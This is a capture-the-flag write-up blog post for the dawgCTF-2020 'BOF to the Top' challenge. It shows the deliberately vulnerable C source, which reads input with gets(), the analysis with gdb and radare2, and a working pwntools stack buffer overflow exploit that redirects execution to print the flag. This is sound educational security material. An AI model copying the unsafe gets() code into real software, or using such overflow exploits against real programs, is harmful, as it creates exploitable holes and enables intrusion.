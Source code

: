 ```yaml
---
layout: post
title: "Bof to the Top"
author: "Trojan187"
categories: ctf
tags: [documentation,sample]
image: ctf.PNG
---
```



## Table of Contents

1. [Introduction](#introduction)
2. [Analysis](#analysis)
3. [Plan](#plan)
4. [Solution](#solution)


##  Introduction

The challenge provides us with the code and a binary.

## dawgCTF-2020: BOF to the Top

Files: `bof.c` & `bof`

`bof.c`
```c

#include "stdio.h"
#include "string.h"
#include "stdlib.h"

// gcc -m32 -fno-stack-protector -no-pie bof.c -o bof

void audition(int time, int room_num){
	char* flag = "/bin/cat flag.txt";
	if(time == 1200 && room_num == 366){
		system(flag);
	}
}

void get_audition_info(){
	char name[50];
	char song[50];
	printf("What's your name?\n");
	gets(name);
	printf("What song will you be singing?\n");
	gets(song);
}

void welcome(){
	printf("Welcome to East High!\n");
	printf("We're the Wildcats and getting ready for our spring musical\n");
	printf("We're now accepting signups for auditions!\n");
}

int main(){
	welcome();
	get_audition_info();
	return 0;
}
```

 `bof`
##  Analysis

Running this binary as seen in the code, askes "What's your name?" and takes the user input then again it asks "What song will you be singing?" 

<img src="../../../../../assets/img/blogs/2020-04-19/bin_run.PNG">

Lets take a look at the properties of the binary.

<img src="../../../../../assets/img/blogs/2020-04-19/checksec.PNG">

<img src="../../../../../assets/img/blogs/2020-04-19/file.PNG">

Running radare2 to further analyse the binary.

<img src="../../../../../assets/img/blogs/2020-04-19/r2_aaaa.PNG">

List functions (addr, size, bbs, name)
NOTE* the audition() function location @ `0x08049182`

<img src="../../../../../assets/img/blogs/2020-04-19/r2_afl.PNG">

Print the disassembly of the audition() function.

<img src="../../../../../assets/img/blogs/2020-04-19/r2_pdf_audition.PNG">

Print the disassembly of the get_audition_info() function

<img src="../../../../../assets/img/blogs/2020-04-19/r2_pdf_get_audition_info.PNG">

Ok so a summary of what has been found out so far:
From the code `bof.c` we can see the audition() function will `"/bin/cat flag.txt"` if the values of time == `1200` && room_num == `366`.

##  Plan
The address of the audition() function can be found @ `0x08049182` so if we can find the buffer overflow and control the registers the values needed can be put onto the stack and the function will provide the flag.txt. 

For local testing first I created a `flag.txt` in the same working directory.

Lets get started with gdb:

<img src="../../../../../assets/img/blogs/2020-04-19/gdb_start.PNG">

Before running the binary I created a pattern of 200 characters which will be used to find the segmetaion fault.

<img src="../../../../../assets/img/blogs/2020-04-19/gdb_start_pattern_create.PNG">

No segmentation fault was found with the first input.

<img src="../../../../../assets/img/blogs/2020-04-19/gdb_no_seg_fault.PNG">

Great, a segmentation fault occured on the 2nd input. With `EIP` being overwritten by `AA8A` (`0x41384141`) @ `112` characters in.

<img src="../../../../../assets/img/blogs/2020-04-19/gdb_seg_fault_EIP.PNG">

##  Solution

Bringing it all together - this is what my final script looked like:

```python

#!/usr/bin/python
from pwn import *

context(arch='x86', os='linux', endian='little', word_size=32)

binary_path = './bof'
e = ELF(binary_path)
p = process(binary_path)

buf = "A" * 112
buf += p32(0x08049182)
buf += "B" * 4
buf += p32(1200)
buf += p32(366)

print(p.recvuntil('?\n'))
p.sendline("Billy")
print(p.recvuntil('?\n'))
p.sendline(buf)
p.interactive()

```

Local test to confirm the script is working and the flag.txt can be read:

<img src="../../../../../assets/img/blogs/2020-04-19/final.PNG">






## END
---
